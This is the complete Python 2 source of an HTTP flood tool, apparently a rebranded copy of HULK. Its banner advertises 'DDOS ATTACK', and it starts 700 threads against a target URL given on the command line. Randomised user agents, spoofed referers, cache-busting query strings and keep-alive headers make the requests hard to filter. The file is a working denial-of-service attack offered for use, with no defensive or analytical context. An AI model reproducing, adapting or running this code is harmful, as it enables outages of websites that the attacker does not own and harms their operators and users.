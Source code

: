 
# tipe : serangan DoS mematikan
# this tool is a DoS tool that is meant to put heavy load on HTTP servers in order to bring them
#
# author :  Anonim024  , version 1.0
import urllib2
import sys
import threading
import random
import re
#global params
url=''
host=''
headers_useragents=[]
headers_referers=[]
request_counter=0
flag=0
safe=0

def inc_counter():
	global request_counter
	request_counter+=1

def set_flag(val):
	global flag
	flag=val

def set_safe():
	global safe
	safe=1
	
# generates a user agent array
def useragent_list():
	global headers_useragents
	headers_useragents.append('Mozilla/5.0 (X11; U; Linux x86_64; en-US; rv:1.9.1.3) Gecko/20090913 Firefox/3.5.3')
	headers_useragents.append('Mozilla/5.0 (Windows; U; Windows NT 6.1; en; rv:1.9.1.3) Gecko/20090824 Firefox/3.5.3 (.NET CLR 3.5.30729)')
	headers_useragents.append('Mozilla/5.0 (Windows; U; Windows NT 5.2; en-US; rv:1.9.1.3) Gecko/20090824 Firefox/3.5.3 (.NET CLR 3.5.30729)')
	headers_useragents.append('Mozilla/5.0 (Windows; U; Windows NT 6.1; en-US; rv:1.9.1.1) Gecko/20090718 Firefox/3.5.1')
	headers_useragents.append('Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US) AppleWebKit/532.1 (KHTML, like Gecko) Chrome/4.0.219.6 Safari/532.1')
	headers_useragents.append('Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; WOW64; Trident/4.0; SLCC2; .NET CLR 2.0.50727; InfoPath.2)')
	headers_useragents.append('Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.0; Trident/4.0; SLCC1; .NET CLR 2.0.50727; .NET CLR 1.1.4322; .NET CLR 3.5.30729; .NET CLR 3.0.30729)')
	headers_useragents.append('Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.2; Win64; x64; Trident/4.0)')
	headers_useragents.append('Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0; SV1; .NET CLR 2.0.50727; InfoPath.2)')
	headers_useragents.append('Mozilla/5.0 (Windows; U; MSIE 7.0; Windows NT 6.0; en-US)')
	headers_useragents.append('Mozilla/4.0 (compatible; MSIE 6.1; Windows XP)')
	headers_useragents.append('Opera/9.80 (Windows NT 5.2; U; ru) Presto/2.5.22 Version/10.51')
	return(headers_useragents)

# generates a referer array
def referer_list():
	global headers_referers
	headers_referers.append('http://www.google.com/?q=')
	headers_referers.append('http://www.usatoday.com/search/results?q=')
	headers_referers.append('http://engadget.search.aol.com/search?q=')
	headers_referers.append('http://' + host + '/')
	return(headers_referers)
	
#builds random ascii string
def buildblock(size):
	out_str = ''
	for i in range(0, size):
		a = random.randint(65, 160)
		out_str += chr(a)
	return(out_str)
def usage():
	print (''' \033[96m	
===============================================================
__________          ________  ________   ________    _________
\______   \         \______ \ \______ \  \_____  \  /   _____/
 |    |  _/  ______  |    |  \ |    |  \  /   |   \ \_____  \ 
 |    |   \ /_____/  |    `   \|    `   \/    |    \/        \
 |______  /         /_______  /_______  /\_______  /_______  /
        \/                  \/        \/         \/        \/ 
=============================================================== 
|Version : V.666           |
|Team    : NO TEAM |
|Create  : DDOS ATTACK |
############################## \n 
	usage : python2 DdosMrAnonim024.py (http.target.xxx)
	================================================= \033[91m''')
	sys.exit()

	
#http request
def httpcall(url):
	useragent_list()
	referer_list()
	code=0
	if url.count("?")>0:
		param_joiner="&"
	else:
		param_joiner="?"
	request = urllib2.Request(url + param_joiner + buildblock(random.randint(3,10)) + '=' + buildblock(random.randint(3,10)))
	request.add_header('User-Agent', random.choice(headers_useragents))
	request.add_header('Cache-Control', 'no-cache')
	request.add_header('Accept-Charset', 'ISO-8859-1,utf-8;q=0.7,*;q=0.7')
	request.add_header('Referer', random.choice(headers_referers) + buildblock(random.randint(50,100)))
	request.add_header('Keep-Alive', random.randint(110,160))
	request.add_header('Connection', 'keep-alive')
	request.add_header('Host',host)
	try:
			urllib2.urlopen(request)
	except urllib2.HTTPError, e:
			#print e.code
			set_flag(1)
			print ('''\033[96m   (HTTP)Attacking website -send packets -proxy \033[0m''')
			code=500
	except urllib2.URLError, e:
			#print e.reason
			sys.exit()
	else:
			inc_counter()
			urllib2.urlopen(request)
	return(code)		

	
#http caller thread 
class HTTPThread(threading.Thread):
	def run(self):
		try:
			while flag<2:
				code=httpcall(url)
				if (code==500) & (safe==1):
					set_flag(2)
		except Exception, ex:
			pass

# monitors http threads and counts requests
class MonitorThread(threading.Thread):
	def run(self):
		previous=request_counter
		while flag==0:
			if (previous+150<request_counter) & (previous<>request_counter):
				print "%d Connection --time out" % (request_counter)
				previous=request_counter
		if flag==2:
			print "\n-- Connection --time out --"

#execute 
if len(sys.argv) < 2:
	usage()
	sys.exit()
else:
	if sys.argv[1]=="help":
		usage()
		sys.exit()
	else:
		print " Attacking website Started ...waiting!!! "
		if len(sys.argv)== 3:
			if sys.argv[2]=="safe":
				set_safe()
		url = sys.argv[1]
		if url.count("/")==2: 
			url = url + "/"
		m = re.search('http\://([^/]*)/?.*', url)
		host = m.group (1)
		for i in range(700):
			t = HTTPThread()
			t.start()
		t = MonitorThread()
		t.start()

